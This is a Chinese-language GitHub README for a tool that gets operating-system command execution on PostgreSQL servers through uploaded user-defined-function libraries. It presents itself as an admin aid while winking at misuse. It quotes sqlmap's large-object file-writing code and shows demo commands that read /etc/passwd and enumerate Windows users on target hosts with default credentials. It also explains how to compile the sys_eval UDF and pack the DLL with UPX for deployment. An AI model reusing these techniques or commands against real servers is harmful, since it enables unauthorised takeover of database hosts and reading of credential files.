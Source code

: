 # hack_postgres

### 前言

PostgreSQL在国外的流行程度不亚于MySQL，简称postgres。比如你kaili linux上的Metasploit数据库服务使用的就是PostgreSQL。

fuck_postgres不是什么黑客攻击工具，他并不是要去hack什么，只用于便捷地使用PostgreSQL自定义函数来执行系统命令，适用于数据库管理员知道postgres密码却不知道ssh或RDP密码的时候在服务器执行系统命令。

一切攻击都是违法行为，非管理员请不要。。。使用此工具的一切违法行为与本人无关。

经测试，sqlmap上对于postgres的--os-shell无效，so文件和dll文件也有问题，语句略坑，所以我抽时间写一个，方便各位“管理员”。

sqlmap该模块的写文件语句详见filesystem.py:
```
def stackedWriteFile(self, wFile, dFile, fileType, forceCheck=False):
	wFileSize = os.path.getsize(wFile)
	content = open(wFile, "rb").read()

	self.oid = randomInt()
	self.page = 0

	self.createSupportTbl(self.fileTblName, self.tblField, "text")

	debugMsg = "create a new OID for a large object, it implicitly "
	debugMsg += "adds an entry in the large objects system table"
	logger.debug(debugMsg)

	# References:
	# http://www.postgresql.org/docs/8.3/interactive/largeobjects.html
	# http://www.postgresql.org/docs/8.3/interactive/lo-funcs.html

	inject.goStacked("SELECT lo_unlink(%d)" % self.oid)
	inject.goStacked("SELECT lo_create(%d)" % self.oid)
	inject.goStacked("DELETE FROM pg_largeobject WHERE loid=%d" % self.oid)

	for offset in xrange(0, wFileSize, LOBLKSIZE):
		fcEncodedList = self.fileContentEncode(content[offset:offset + LOBLKSIZE], "base64", False)
		sqlQueries = self.fileToSqlQueries(fcEncodedList)

		for sqlQuery in sqlQueries:
			inject.goStacked(sqlQuery)

		inject.goStacked("INSERT INTO pg_largeobject VALUES (%d, %d, DECODE((SELECT %s FROM %s), 'base64'))" % (self.oid, self.page, self.tblField, self.fileTblName))
		inject.goStacked("DELETE FROM %s" % self.fileTblName)

		self.page += 1

	debugMsg = "exporting the OID %s file content to " % fileType
	debugMsg += "file '%s'" % dFile
	logger.debug(debugMsg)

	inject.goStacked("SELECT lo_export(%d, '%s')" % (self.oid, dFile), silent=True)

	written = self.askCheckWrittenFile(wFile, dFile, forceCheck)

	inject.goStacked("SELECT lo_unlink(%d)" % self.oid)

	return written
```

filesystem.py line65，是将dll文件base64编码解码，整个写入到pg_largeobject的一个page，在linux某些版本一定会报错的。 
每page容量为4096字节，如果是hex，只能容纳2kb的数据。

##### 工具特点：

> 1. 不限平台，可用于管理windows和linux上的postgres
> 2. 不限版本，udf有效版本内可自行添加库文件到工具目录
> 3. hex+分段写入large obj，无page数据过大问题
> 4. 。。。


#### USAGE

```
usage: fuck_postgres [-h] [-a HOST] [-o PORT] [-u USER] [-p PASSWD]
                     [-d DATABASE] [-e EXECUTE]

optional arguments:
  -h, --help            show this help message and exit
  -a HOST, --host HOST  pgsql server ip
  -o PORT, --port PORT  pgsql Port
  -u USER, --user USER  pgsql UserName
  -p PASSWD, --passwd PASSWD
                        pgsql password
  -d DATABASE, --database DATABASE
                        pgsql database
  -e EXECUTE, --execute EXECUTE
                        command for UDF to execute
```

##### 演示

管理PostgreSQL 9.2.24 running on linux 64：

```
./fuck_postgres -a 192.168.0.30 -u postgres -p postgresu -e "cat /etc/passwd"
```

![linux](./pic/linux.png)

```
./fuck_postgres -a 192.168.0.30 -u postgres -p postgres -e "net user & whoami"
```


![whoami](./pic/whoami.png)

管理PostgreSQL 8.2.21 running on windows 32：

```
fuck_postgres.exe -a 192.168.0.30 -u postgres -p postgres -e "quser & net user & whoami"
```

![win](./pic/win.png)

```
fuck_postgres.exe -a 192.168.0.47 -u postgres -p postgres -e "ls -al"
```

![win2](./pic/win2.png)

##### 暂时收录了以下版本postgres的库文件：

![tree](./pic/tree.png)

各版本源码地址：`https://www.postgresql.org/ftp/source`

##### 以下来自@zcgonvh（https://www.t00ls.net/thread-30179-1-1.html）

我在拜读前辈文章时，叹服前辈对待技术研究的态度。

udf源文件在此(https://github.com/sqlmapproject/udfhack/)

在 linux 编译so文件简单许多，只需要一条命令： 
```
gcc sys_eval.c -shared -fPIC -I$PGSRC/include/server -o /tmp/8.2_x64.so 
```
其中$PGSRC 为 postgres 源码的路径或安装路径。 

windows上编写 postgres 的 UDF 需要引用其提供的头文件，在 windows 下这些头文件的位置为： 

`%PGDIR%\include `
其中`%PGDIR%`为 postgres 的安装路径 而需要引用的头文件目录并不仅仅只有这个，以下两个目录也是必须的： 

```
%PGDIR%\include\server 
%PGDIR%\include\server\port\win32 
```
这三个路径都需要加到工程的头文件目录列表中。 
同时，需要将 `%PGDIR%\lib `
添加至 lib 文件目录列表中。  
在编译时，必须使用 vs 进行编译，使用 vc6 编译会失败（原因未知）。 
同时也不能使用 release 模式生成，release 的某个选项会导致编译出的 dll 不能正常使用（vs2008 出现此情况，其余版本未测试）。 
为了防止对方未安装 vc 运行库，务必将 配置属性->C/C++->代码生成 中的 代码生成 选项修改为多
线程/MT，以保证在任何情况下均能够正常运行。 
最后，为了尽可能的减小生成文件体积，需要修改 配置属性->链接器 中以下几个参数： 
清单文件->生成清单，修改为否 调试->生成调试信息，修改为否 
优化->引用，修改为是 
优化->启用 COMDAT 折叠，修改为是  
在 vs2008 下使用以上设置，编译成功。 另：建议将生成的动态链接库文件使用 UPX 进行压缩，这样可以有效地减少文件体积。UPX 的下载地
址为： 
http://upx.sourceforge.net/#downloadupx  



欢迎有vs环境的童鞋编译提交新的库文件。

##### 参考鸣谢：@zcgonvh @anlfi @bt2312 @Catchermana
